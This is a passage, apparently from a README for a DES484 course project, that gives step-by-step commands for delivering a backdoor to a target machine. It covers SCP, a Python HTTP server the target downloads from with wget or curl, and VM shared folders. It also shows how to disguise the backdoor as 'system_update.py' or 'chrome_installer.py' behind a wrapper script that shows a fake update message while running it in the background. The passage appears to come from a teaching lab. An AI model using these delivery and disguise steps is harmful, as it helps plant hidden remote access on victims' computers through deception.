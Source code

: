 ### Phase 3: Deployment Methods

#### Method A: Direct Transfer (Same Network)

**Using SCP:**

```bash
# From attacker machine
scp -r DES484_Backdoor/ user@target_ip:/tmp/

# Example:
scp -r DES484_Backdoor/ alice@192.168.1.50:/tmp/
```

**Using HTTP Server:**

```bash
# On attacker:
cd ~/Desktop
python3 -m http.server 8000

# On target:
# If you have wget installed:
wget http://192.168.1.12:8000/backdoor_full.tar.gz
# If wget is not available (zsh: command not found), use curl (installed by default on macOS/Linux):
curl -O http://192.168.1.12:8000/backdoor_full.tar.gz
# Or install wget:
#  - macOS (Homebrew): brew install wget
#  - Debian/Ubuntu: sudo apt update && sudo apt install -y wget
#  - Fedora/CentOS: sudo dnf install -y wget
tar -xzf backdoor_full.tar.gz
cd DES484_Backdoor/
```

**Using USB/Shared Folder (VMs):**

```bash
# Copy to shared folder
cp -r DES484_Backdoor/ /mnt/shared/

# On target VM:
cp -r /mnt/shared/DES484_Backdoor /tmp/
```

#### Method B: Social Engineering Simulation

**Disguise the backdoor:**

```bash
# Rename to look legitimate
mv server.py system_update.py
# or
mv server.py chrome_installer.py

# Create wrapper script
cat > update.sh << 'EOF'
#!/bin/bash
echo "Installing system updates..."
python3 system_update.py &
echo "Update complete!"
EOF
chmod +x update.sh
```
